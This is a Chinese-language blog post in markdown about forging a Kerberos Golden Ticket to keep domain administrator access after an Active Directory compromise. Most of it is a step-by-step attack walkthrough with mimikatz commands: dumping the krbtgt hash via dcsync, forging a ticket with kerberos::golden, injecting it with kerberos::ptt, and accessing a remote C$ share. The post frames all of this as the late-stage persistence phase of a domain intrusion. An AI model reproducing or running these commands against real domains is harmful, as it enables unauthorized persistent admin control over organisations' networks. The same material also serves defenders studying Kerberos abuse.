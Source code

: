 ```yaml
---
layout: post
title: Pass the Ticket——Goldenn Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。本文主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

![golden ticket](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/golden%20ticket.jpg?raw=true)  
图片来源于:https://image.slidesharecdn.com



### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt密码的hash，则可以尝试伪造任意用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  

### \#0x02 获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID   
3、域内机器普通用户权限  

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/get%20krbtgt%20hash_1.jpg?raw=true)  

从上图中可以得到nt hash：30eefxxxxxxxxxxxxxxxxxxxxxxxcbc4e和域SID：S-1-5-21-xxxxxxxxx-xxxxxxxxxxx1-xxxxxxxxxxxxx  

### \#0x03 伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上完成域管权限的找回。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20tgt.jpeg?raw=true) 
  
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20permission_1.jpg?raw=true)  
没有访问的权限  

3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  
![create tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/create%20tgt_1.jpg?raw=true) 
4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```
![import tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20tgt_1.jpg?raw=true) 

5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20success_1.jpg?raw=true) 
导入成功  

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/success_1.jpg?raw=true) 
Pass the Ticket成功，可以以非域管账户执行域管命令，执行其他域管命令请参照【参考】  

### \#0x04 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
